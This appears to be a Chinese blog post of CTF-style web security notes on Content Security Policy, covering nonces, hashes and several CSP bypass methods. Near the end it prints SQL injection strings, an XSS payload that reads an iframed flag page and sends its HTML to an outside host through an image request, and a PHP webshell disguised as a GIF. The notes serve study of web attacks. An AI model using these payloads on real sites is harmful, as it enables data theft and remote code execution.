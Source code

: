### CSP专题

内容安全策略，旨在减少跨站脚本攻击。浏览器可通过获取header头进行CSP配置。

Content-Security-Policy:default-src 'self';script-src 'self' server.xxx.com

CSP用来定义所有加载策略。

经常遇到的是`default-src 'self';script-src 'self' 'unsafe-inline'`

link rel `dns-prefetch(firefox)``prefetch(chorme)`

	<script>
	window.location="www.xxx.com/a/x.js"
	</script>
	
CSP限制了一定的目录，但脚本在另一个目录，那么可以通过请求redirect页面访问

	<script src="http://xxx.com/b/x.js">
	</script>

CSP只能通过对本域的JS。

	<script>alert(1)</script>
	
无法使用。`<link rel="import">`同样不行。连本地文件引进来都会作为内联执行同样不能执行。

解决方案：

1. 通过JSONP绕过
2. 反射或者符号执行
3. 引入anglarJS库创建web界面。就可以执行JS了。
4. 重定向绕过

####Nonces与Hashes。

给inline脚本和样式配置更为精确的规则，用来确保执行已知的inline代码，避免XSS代码执行。

Nonces通过在CSP中指定允许资源的序号，达到限制非法inline代码的目的。不能让攻击者猜到序号。

Hashes通过在CSP中指定允许资源的摘要签名。支持sha256\sha384\sha512三种算法。Nonces成本更低，Hashes方案更安全。

这是CSP2新增的内容，所以还是要加上unsafe-inline。确保仅CSP1的浏览器有还手之力。

解决方案：开启nonce之后，还开启了浏览器缓存，如果仅修改了location.hash，浏览器不会请求服务器，那么nonce string不会更换。

可以在主站构造XSS，开iframe请求admin目录，获取nonce值后。新建一个iframe，添加带有nonce字符串的iframe窗口，执行任意xss。

1. 目标站开启了缓存机制
2. 目标站同源下存在未被CSP保护的存在的XSS站点

```
select * form users where username='aaaa' or nickname='bbbb'

select * form users where username='aaaa\' or nickname='or 'bbbb'='bbbb'

<iframe id="ffff" src="http://202.112.51.217:43426/flag.php" onload="send()"></iframe>
<script>
function send() {
        var n0t= document.createElement("img");
        n0t.src = "http://xxxx?"+escape(document.getElementById("ffff").contentWindow.document.documentElement.outerHTML);
        document.head.appendChild(n0t);
    }
    
</script>
```

PHP绕过姿势：GIF89a\x3c?php eval($_REQUEST[A]);?\x3e\x3c/script\x3e\r\n

转载请注明：[碎雪的小屋](http://RoyTse.github.io) » [0x04-Web第三天](http://RoyTse.github.io/2017/08/0x04-Web第三天/)  
